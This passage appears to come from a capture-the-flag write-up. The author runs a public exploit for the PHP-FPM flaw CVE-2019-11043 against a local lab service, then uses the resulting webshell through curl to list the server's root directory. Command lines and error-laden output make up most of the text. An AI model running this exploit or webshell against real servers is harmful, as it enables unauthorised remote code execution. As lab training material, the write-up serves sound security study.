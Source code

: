

    oxdf@parrot$ python3 /opt/CVE-2019-11043/exploit.py --url http://127.0.0.1:9001/index.php
    [*] QSL candidate: 1754, 1759, 1764
    [*] Target seems vulnerable (QSL:1754/HVL:219): PHPSESSID=f73b39e0eda602d14224e4095b436f6c; path=/
    [*] RCE successfully exploited!

        You should be able to run commands using:
        curl http://127.0.0.1:9001/index.php?a=bin/ls+/



Hitting the webshell returns a bunch of errors, but then the output of
the command:



    oxdf@parrot$ curl http://127.0.0.1:9001/index.php?a=/bin/ls+/
    [05-Aug-2021 00:43:52 UTC] PHP Warning:  Unknown: failed to open stream: No such file or directory in Unknown on line 0
    [05-Aug-2021 00:43:52 UTC] PHP Fatal error:  Unknown: Failed opening required 'a' (include_path='/tmp') in Unknown on line 0
    [05-Aug-2021 00:43:53 UTC] PHP Warning:  Unknown: failed to open stream: No such file or directory in Unknown on line 0
    [05-Aug-2021 00:43:54 UTC] PHP Warning:  Cannot modify header information - headers already sent by (output started at /tmp/a:1) in /var/www.md/index.php on line 2
    ...[snip]...
    [05-Aug-2021 00:44:14 UTC] PHP Warning:  Unknown: Unable to load dynamic library 'bin
    boot
    dev
    entry.sh
    etc
    home
    lib
    lib64
    media
    mnt
    opt
    php-src
    proc
    root
    run
    sbin
    srv
    sys
    tmp
    usr
    var
    ' - bin
    boot
    dev
    entry.sh
    etc
    home
    lib
    lib64
    media
    mnt
    opt
    php-src
    proc
    root
    run
    sbin
    srv
    sys
    tmp
    usr